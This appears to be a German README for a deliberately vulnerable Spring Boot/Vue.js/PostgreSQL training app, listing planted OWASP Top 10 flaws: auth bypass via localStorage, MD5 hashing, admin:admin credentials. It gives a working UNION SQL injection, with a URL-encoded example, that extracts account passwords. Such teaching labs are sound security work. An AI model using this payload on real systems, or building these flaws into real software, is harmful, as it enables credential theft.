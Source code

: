 # Spring Boot + Vuejs + Postgresql Server mit OWASP Top 10 

## A01:2021 – Fehler in der Zugriffskontrolle

Fehler: 
 - Auth ByPass mit Localstorage Item 
 - APIs generell unprotected
 - Url manipulation Orders

## A02:2021 – Cryptographic Failure

Fehler:
  - MD5 Hashing

## A03:2021 – Injection

Detail View Parameter ist angreifbar mit Sql Injection

Normale Query: 

```sql

SELECT * FROM orders JOIN  accounts on orders.userid = accounts.did where orders.did = 1
```

Union Injection: 

```sql
SELECT * FROM orders JOIN  accounts on orders.userid = accounts.did where orders.did = 1
UNION
SELECT 999, 999, '999' const, 999, did, username,email, password  FROM accounts where did = 1;
```

Example (URI encoded): 

http://localhost/detail/1222%20UNION%20SELECT%20999%2C%20999%2C%20'999'%20const%2C%20999%2C%20did%2C%20username%2Cemail%2C%20password%20%20FROM%20accounts%20where%20did%20%3D%201%3B

## A07:2021 – Identification and Authentication Failures
Fehler:
  - Identification mit session Id (kann geändert werden im Localstorage)
  - admin:admin zugang
  - Cred Stuffing

## A09:2021 – Security Logging and Monitoring Failures 
Fehler:
  - Logging von DB Fehlern direkt an die User 
  - kein Logging von Zugriffen



